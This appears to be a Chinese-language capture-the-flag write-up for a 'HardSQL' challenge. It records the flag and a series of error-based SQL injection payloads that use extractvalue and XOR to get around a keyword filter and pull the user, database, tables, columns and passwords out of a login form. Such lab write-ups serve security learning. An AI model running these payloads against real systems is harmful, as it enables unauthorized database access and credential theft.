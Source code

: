 ```yaml
---
Author: SuperJason
Date: 2021-1-7
---
```


## flag
`flag{ae8436e4-86fa-4992-8012-700bf91a9e29}`

## 思路

1. 通过BurpSuite跑一下fuzz.txt，union等关键字被过滤，`updatexml、extractvalue、^`还可以使用，猜测为报错注入。
- username=test'^extractvalue(1,concat(0x7e,user(),0x7e))%23&password=12
  ![](images/hardsql-1.png)
- username=test'^extractvalue(1,concat(0x7e,database(),0x7e))%23&password=12
  ![](images/hardsql-2.png)
- username=test'^extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e))%23&password=12
  ![](images/hardsql-3.png)
- username=test'^extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e))%23&password=12
  ![](images/hardsql-4.png)
- username=test'^extractvalue(1,concat(0x7e,(select(group_concat(password))from(H4rDsq1)),0x7e))%23&password=12
  ![](images/hardsql-5.png)
- username=test'^extractvalue(1,concat(0x7e,reverse((select(group_concat(password))from(H4rDsq1))),0x7e))%23&password=12
  ![](images/hardsql-6.png)

## 总结
报错注入，异或替换and、or，%23替换#(hackbar总结用#有问题，转码)

